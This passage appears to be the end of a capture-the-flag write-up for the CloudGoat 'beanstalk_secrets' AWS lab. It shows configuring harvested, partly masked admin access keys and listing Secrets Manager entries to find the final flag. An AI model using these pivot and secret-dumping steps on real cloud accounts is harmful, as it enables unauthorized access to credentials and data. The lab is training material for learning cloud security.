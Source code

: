 ```
Access Key ID: AKIAYK******************
Secret Key: KJr+NwAyPcIhZ******************
```

### Configure the admin credentials###

We can now pivot to the admin account

```
`┌─[pwnedlabs@cloud]─[~]`
`└──╼ $ aws configure --profile admin`          
`AWS Access Key ID [None]: AKIAYK******************`
`AWS Secret Access Key [None]: KJr+NwAyPcIhZZRgo**********************`
`Default region name [None]: us-east-1`
`Default output format [None]: json`
```

### List  and Read Secrets in SecretManager###

After configuring the admin account, we can proceed to dumping the secret flag.

```aws secretsmanager list-secrets --profile admin```

```

`┌─[pwnedlabs@cloud]─[~]`
`└──╼ $ aws secretsmanager list-secrets --profile admin`                                                 
`{`
    `"SecretList": [`
        `{`
            `"ARN": "arn:aws:secretsmanager:us-east-1:571600863645:secret:cgidkklcl54ir4_final_flag-fypAqi",`
            `"Name": "cgidkklcl54ir4_final_flag",`
            `"LastChangedDate": 1757741851.801,`
            `"LastAccessedDate": 1757721600.0,`
            `"Tags": [`
                `{`
                    `"Key": "Scenario",`
                    `"Value": "beanstalk_secrets"`
                `},`
                `{`
                    `"Key": "Stack",`
                    `"Value": "CloudGoat"`
                `}`
            `],`
            `"SecretVersionsToStages": {`
                `"terraform-20250913053731050200000002": [`
                    `"AWSCURRENT"`
                `]`
            `},`
            `"CreatedDate": 1757741848.823`
        `}`
    `]`
`}`
```

```aws secretsmanager list-secrets --query 'SecretList[*].Name' --output text --profile admin````
```
`┌─[pwnedlabs@cloud]─[~]`
`└──╼ $ aws secretsmanager list-secrets --query 'SecretList[*].Name' --output text --profile admin`
`cgidkklcl54ir4_final_flag`
```
We successfully solved the scenario
 
### Destroying the resources###

```